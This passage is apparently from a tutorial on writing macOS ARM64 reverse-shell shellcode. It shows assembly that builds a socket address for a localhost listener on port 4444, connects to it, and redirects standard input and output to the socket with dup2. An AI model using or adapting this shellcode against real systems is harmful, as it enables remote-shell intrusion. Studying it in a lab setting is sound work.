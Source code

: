 We place it directly in `.data`, not on the stack:    

```nasm
.data
sockaddr_in:
  .byte 16, 2, 0x11, 0x5c, 127, 0, 0, 1, 0,0,0,0, 0,0,0,0
.text
```

and reference it safely with `ADRP/ADD`:    

```nasm
; prepare pointer to sockaddr_in (use adrp/add)
adrp    x1, sockaddr_in@PAGE
add     x1, x1, sockaddr_in@PAGEOFF
mov     x2, #16          ; sizeof(struct sockaddr_in)
```

That gives a reloc-safe pointer to the structure, even if code and data land on different pages.     

Then for connecting to the listener, we neede to call `connect(sockfd, addr, len)`:     

```nasm
; connect(sockfd, addr, addrlen)
mov     x0, x19
mov     x16, #98          ; bsd syscall: connect (98)
svc     #0xffff
cmp     x0, #0
blt     _exit_fail
```

this connection logic returns 0 on success. If you forgot `sin_len` or mixed endian on the port, it fails silently. For example, typical lab error: writing `0x5C11` instead of `0x115C`.    

Once connected, all we need is I/O redirection:    

```nasm
; redirect stderr/stdout/stdin -> socket using dup2
; dup2(sock, 2)
mov     x0, x19
mov     x1, #2
mov     x16, #90
svc     #0xffff

; dup2(sock, 1)
mov     x0, x19
mov     x1, #1
; x16 already 90, but set again for clarity
mov     x16, #90
svc     #0xffff

; dup2(sock, 0)
mov     x0, x19
mov     x1, #0
mov     x16, #90
svc     #0xffff
```

